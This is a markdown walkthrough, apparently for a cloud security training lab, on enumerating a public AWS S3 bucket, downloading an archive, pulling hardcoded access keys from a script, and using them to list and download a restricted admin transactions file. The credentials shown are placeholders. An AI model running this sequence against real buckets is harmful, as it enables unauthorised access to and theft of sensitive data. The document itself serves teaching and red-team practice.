 # AWS S3 Enumeration Basics Guide

This documentation provides a step-by-step guide for enumerating AWS S3 buckets, identifying misconfigurations, and accessing sensitive data using publicly available information. This guide is intended for educational purposes and ethical red team engagements.

---

## Table of Contents

1. [Prerequisites](#prerequisites)
2. [Configure AWS CLI](#configure-aws-cli)
3. [Enumerate S3 Buckets](#enumerate-s3-buckets)
4. [Download Files from S3](#download-files-from-s3)
5. [Identify and Use Hardcoded Credentials](#identify-and-use-hardcoded-credentials)
6. [Troubleshooting](#troubleshooting)

---

## Prerequisites

- **AWS CLI** installed on your system.
- **Basic Linux command line knowledge**.
- Access to a target website and associated S3 bucket information.

---

## 1. Configure AWS CLI

Install the AWS CLI on Debian-based systems:

```bash
sudo apt install awscli
```

Verify the installation:

```bash
aws --version
```

If you have AWS credentials (Access Key ID and Secret Access Key), configure the AWS CLI:

```bash
aws configure
```

**Note**: Placeholder values for credentials:

- **AWS Access Key ID**: `AKIAxxxxxxxxxxxxxxxx`
- **AWS Secret Access Key**: `wJalrxxxxxxxxxxxxxxxxxxxxxxxxxx`
- **Default region name**: `us-east-1`

---

## 2. Enumerate S3 Buckets

### List S3 Bucket Contents (No Credentials)

If you know the bucket name, try listing its contents without credentials:

```bash
aws s3 ls s3://dev.huge-logistics.com --no-sign-request
```

#### Explanation

- `aws s3 ls`: List contents of an S3 bucket.
- `s3://dev.huge-logistics.com`: The target S3 bucket.
- `--no-sign-request`: Perform an unsigned request to check for public access.

### Recursive Listing

Attempt to list all directories recursively:

```bash
aws s3 ls s3://dev.huge-logistics.com --no-sign-request --recursive
```

---

## 3. Download Files from S3

### Identify Accessible Directories

Check specific directories in the bucket:

```bash
aws s3 ls s3://dev.huge-logistics.com/shared/ --no-sign-request
```

### Download Files

Download files from an accessible directory:

```bash
aws s3 cp s3://dev.huge-logistics.com/shared/hl_migration_project.zip . --no-sign-request
```

### Extract Files

Unzip the downloaded archive:

```bash
unzip hl_migration_project.zip
```

---

## 4. Identify and Use Hardcoded Credentials

After extracting the files, look for scripts containing hardcoded AWS credentials.

### Example of Hardcoded Credentials in a Script

```powershell
# AWS Configuration
$accessKey = "AKIAxxxxxxxxxxxxxxxx"
$secretKey = "MwGe3xxxxxxxxxxxxxxxxxxxxxxxxxxxx"
$region = "us-east-1"
```

### Configure AWS CLI with New Credentials

```bash
aws configure
```

When prompted, enter the new Access Key and Secret Key.

### Verify Identity

Check the execution context with:

```bash
aws sts get-caller-identity
```

---

## 5. Download Restricted Files with New Credentials

Now that you have valid credentials, try accessing restricted directories.

### Access `/admin` Directory

```bash
aws s3 ls s3://dev.huge-logistics.com/admin/
```

### Download Files

```bash
aws s3 cp s3://dev.huge-logistics.com/admin/website_transactions_export.csv .
```

---

## 6. Troubleshooting

### Access Denied Errors

- Ensure you have the correct permissions.
- Verify that the bucket is publicly accessible or that your credentials are valid.

### Invalid Credentials

- Double-check the Access Key and Secret Key.
- Ensure the region is set correctly (e.g., `us-east-1`).

### AWS CLI Installation Issues

Refer to the [AWS CLI Installation Guide](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html) for troubleshooting steps.

---
